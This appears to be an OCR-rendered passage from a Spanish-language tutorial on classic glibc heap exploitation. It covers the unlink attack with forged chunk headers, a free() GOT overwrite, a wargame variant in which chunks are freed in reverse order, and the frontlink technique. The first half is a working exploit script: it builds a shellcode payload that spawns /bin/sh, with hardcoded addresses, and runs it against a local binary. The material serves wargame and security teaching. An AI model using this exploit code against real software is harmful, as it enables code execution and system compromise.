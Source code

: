 **"\x80\xe8\xdc\xff\xff\xff/bin/sh";**

**prev\_size = pack\("&lt;I”, 0xfffffff0\) \#Interesa que el bit que indica que el anterior trozo está libre esté a 1**

**fake\_size = pack\("&lt;I”, 0xfffffffc\) \#-4, para que piense que el “size” del 3º trozo está 4bytes detrás \(apunta a prev\_size\) pues es ahí donde mira si el 2º trozo está libre**

**addr\_sc = pack\("&lt;I", 0x0804a008 + 8\) \#En el payload al principio le vamos a poner 8bytes de relleno**

**got\_free = pack\("&lt;I", 0x08048300 - 12\) \#Dirección de free\(\) en la plt-12 \(será la dirección que se sobrescrita para que se lanza la shellcode la 2º vez que se llame a free\)**

**payload = "aaaabbbb" + shellcode + "b"\*\(512-len\(shellcode\)-8\) \# Como se dijo el payload comienza con 8 bytes de relleno porque sí**

**payload += prev\_size + fake\_size + got\_free + addr\_sc \#Se modifica el 2º trozo, el got\_free apunta a donde vamos a guardar la direccion addr\_sc + 12**

**os.system\("./8.3.o " + payload\)**

**unset\(\) liberando en sentido inverso \(wargame\)**

Estamos controlando 3 chunks consecutivos y se liberan en orden inverso al reservado.

En ese caso:

En el chunck c se pone el shellcode

El chunck a lo usamos para sobreescribir el b de forma que el el size tenga el bit PREV\_INUSE desactivado de forma que piense que el chunck a está libre.

Además, se sobreescribe en la cabecera b el size para que valga -4.

Entonces, el programa se pensará que “a” está libre y en un bin, por lo que llamará a unlink\(\) para desenlazarlo. Sin embargo, como la cabecera PREV\_SIZE vale -4. Se pensará que el trozo de “a” realmente empieza en b+4. Es decir, hará un unlink\(\) a un trozo que comienza en b+4, por lo que en b+12 estará el puntero “fd” y en b+16 estará el puntero “bk”.

De esta forma, si en bk ponemos la dirección a la shellcode y en fd ponemos la dirección a la función “puts\(\)”-12 tenemos nuestro payload.

**Técnica de Frontlink**

Se llama a frontlink cuando se libera algo y ninguno de sus trozos contiguos no son libres, no se llama a unlink\(\) sino que se llama directamente a frontlink\(\).

Vulnerabilidad útil cuando el malloc que se ataca nunca es liberado \(free\(\)\).

Necesita:

Un buffer que pueda desbordarse con la función de entrada de datos

Un buffer contiguo a este que debe ser liberado y al que se le modificará el campo fd de su cabecera gracias al desbordamiento del buffer anterior

Un buffer a liberar con un tamaño mayor a 512 pero menor que el buffer anterior

Un buffer declarado antes del paso 3 que permita sobreescribir el prev\_size de este

De esta forma logrando sobres cribar en dos mallocs de forma descontrolada y en uno de forma controlada pero que solo se libera ese uno, podemos hacer un exploit.
